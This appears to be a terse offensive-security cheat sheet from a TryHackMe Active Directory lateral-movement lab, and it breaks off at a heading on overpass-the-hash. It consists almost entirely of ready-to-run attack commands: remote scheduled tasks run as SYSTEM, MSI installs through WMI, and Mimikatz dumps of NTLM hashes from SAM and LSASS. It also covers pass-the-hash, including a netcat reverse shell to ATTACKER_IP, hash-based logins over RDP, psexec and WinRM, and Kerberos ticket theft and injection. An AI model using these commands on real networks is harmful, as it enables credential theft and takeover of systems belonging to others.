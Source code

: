 $Action = New-ScheduledTaskAction -CimSession $Session -Execute $Command -Argument $Args
Register-ScheduledTask -CimSession $Session -Action $Action -User "NT AUTHORITY\SYSTEM" -TaskName "THMtask2"
Start-ScheduledTask -CimSession $Session -TaskName "THMtask2"




Installing MSI packages through WMI


    Ports:
        135/TCP, 49152-65535/TCP (DCERPC)
        5985/TCP (WinRM HTTP) or 5986/TCP (WinRM HTTPS)
    Required Group Memberships: Administrators


Invoke-CimMethod -CimSession $Session -ClassName Win32_Product -MethodName Install -Arguments @{PackageLocation = "C:\Windows\myinstaller.msi"; Options = ""; AllUsers = $false}

wmic /node:TARGET /user:DOMAIN\USER product call install PackageLocation=c:\Windows\myinstaller.msi




# Use of Alternate Authentication Material 

Extracting NTLM hashes from local SAM
privilege::debug
token::elevate
lsadump::sam 

Extracting NTLM hashes from LSASS memory

privilege::debug
token::elevate
sekurlsa::msv

pass the hash
token::revert
sekurlsa::pth /user:bob.jenkins /domain:za.tryhackme.com /ntlm:6b4a57f67805a663c818106dc0648484 /run:"c:\tools\nc64.exe -e cmd.exe ATTACKER_IP 5555"

Connect to RDP using PtH
xfreerdp /v:VICTIM_IP /u:DOMAIN\\MyUser /pth:NTLM_HASH

Connect via psexec using PtH
psexec.py -hashes NTLM_HASH DOMAIN/MyUser@VICTIM_IP

Connect to WinRM using PtH
evil-winrm -i VICTIM_IP -u MyUser -H NTLM_HASH


Pass-the-Ticket

privilege::debug
sekurlsa::tickets /export
kerberos::ptt [0;427fcd5]-2-0-40e10000-Administrator@krbtgt-ZA.TRYHACKME.COM.kirbi


Overpass-the-hash / Pass-the-Key
